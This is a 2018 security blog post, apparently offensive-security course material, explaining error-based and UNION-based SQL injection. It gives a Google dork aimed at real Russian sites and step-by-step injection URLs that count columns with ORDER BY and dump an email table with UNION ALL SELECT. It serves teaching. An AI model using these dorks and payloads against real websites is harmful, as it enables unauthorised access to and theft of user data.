 ```yaml
---
title: In-band SQL injections
layout: post
date: 2018-01-11
category: [it, security, english]
description: The classics one
permalink: /blog/Inband-SQLI/
comments: true
tags :
- SQLI
- offsec
- english
- infosec

---
```

First, you have to understand the different types of SQLi, [here][1]. I will speak here about In-band Injection, the classic one. divided into 2 types:

- Error based SQLi
- UNION based SQLi

# Error Based SQLI

## Goal  
  

Gathering database structure information by Displaying SQL Errors on the target website. In some cases, you can enumerate the entire database with those.

## Finding a weak URL 

Using Google Dorks. Yes, google is helping you finding weak urls.
 
 → &nbsp; `inurl:"product.php?id=" site:.ru`

Here you are asking Google to list Russian site with `product.php?id=` in the URL. But Why? Because we want to find a page which is directly talking to the database. In most cases you want to search for those patterns: `*.php?parameter=n`

## how do I know this URL is weak to SQLi? 

You have to put a `'` or `%27` just after the parameter's number and press enter: `http[:]//w34ksite.com/product.php?id=1'`. If a SQL Error appears there is some probability that this website is injectable.

_________________________________________________________

# UNION Based SQLI

## Goal  

Leverages the UNION SQL operator to combine the results of two or more SELECT statements into a single result.

*the following block is part of a material I wrote for infoSec students. (Offensive security class)*


## first step

Find an URL that sends SQL queries, like this one: `http://w34ksite.com/products.php?category=1` . This URL list products, regrouped in the category named 1. Try to remember that an URL ending with `* ? * = *` will, in most cases, communicate with a SQL Database, we want to exploit this. 

## The second step

Translate the ```products.php?category=1``` part of URL into a SQL query. In this scenario (and in a lot of website in production) this piece of URL is a disguised SQL query: 

→ &nbsp; `products.php?category=1` = `SELECT * FROM products WHERE category=1`

## The third step

Can we inject the category parameter? Let's try to sort the products list by adding `ORDER BY n`:

→ &nbsp; ```http://w34ksite.com/products.php?category=1 ORDER BY 1``` Nothing change.

→ &nbsp; ```http://w34ksite.com/products.php?category=1 ORDER BY 2``` The products order have changed! The *n* number in `ORDER BY n` indicate from which table's column number you are sorting the output (in this case the **second column of the table products**). So wait a minute, what happens if I input a number that exceeds the maximum number of the table? Let's try out.

→ &nbsp; ```http://w34ksite.com/products.php?category=1 ORDER BY 3``` Order changes again.

→ &nbsp; ```http://w34ksite.com/products.php?category=1 ORDER BY 4``` Blank page! We can deduce that the product's table has **3 column**. This info is crucial for using the SQL *UNION ALL* operator.

## The fourth step

Let's plan the attack for capturing the flag. So, for instance, let's assume you can fetch the flag by dumping the email addresses of the w34ksite DB.    

Of course, the email entries are not in the product table. They should be elsewhere... You can guess table's name and more when *SQL error appear directly on the web page*, but this time, we will try to rely on the UNION leverage attack.  

So let's assume the email's table is named *email*, because we know this is the CMS default email's table name.

→ &nbsp; `SELECT * FROM email` = `http://w34ksite.com/email.php` ?  

Of course not. Who will be crazy enough to create a PHP page that lists the database's email? Why not password.php?

Don't forget that ```products.php?category=1``` is our key to communicate with the database and inject things. This key open the database door, the general idea is to use this *key* for displaying the content of the email table.  

We will achieve that by displaying the products table contents (products.php?category=1) **and** the email table contents. Using the *[UNION ALL][2]* operator. This operator is quite useful, you can merge another SQL request by using it.  

Let's translate again the key URL into a SQL query:

→ &nbsp; `products.php?category=1` = `SELECT * FROM products WHERE category=1` 

Let's add a new query by using the UNION ALL operator:

→ &nbsp; `SELECT * FROM products WHERE category=1` AND `UNION ALL SELECT *, NULL, NULL FROM email`

Let's merge the key URL and the new query (Which is actually an UNION based SQL injection attack trying to diplay the email table.) We should have something like this :

`http://w34ksite.com/products.php?category=1 UNION ALL SELECT *, NULL, NULL FROM email`

##  * , NULL, NULL ?

- ```NULL```: Fake an empty column. 
- ```,``` : Separate a column from another
- ```*``` : display entries of this column

Remember the ```http://w34ksite.com/products.php?category=1 ORDER BY 4``` which has return a blank page? We get a very valuable information: the number of **column** the product's table possess, the number of column is 3. When using the *UNION ALL* operator, the table's column number has to be the same for both queries. For instance if the products table possessed 5 columns, the UNION ALL attack would be something like this `UNION ALL SELECT *, NULL, NULL, NULL, NULL FROM email`

If nothing happens, try to move the ```*``` around like this:

→ &nbsp; ```http://w34ksite.com/products.php?category=1 UNION ALL SELECT *, NULL, NULL FROM email```

→ &nbsp; ```http://w34ksite.com/products.php?category=1 UNION ALL SELECT NULL, *, NULL FROM email```

→ &nbsp; ```http://w34ksite.com/products.php?category=1 UNION ALL SELECT NULL, NULL, * FROM email```

[2]: https://www.techonthenet.com/sql/union_all.php

[1]: https://www.acunetix.com/websitesecurity/sql-injection2/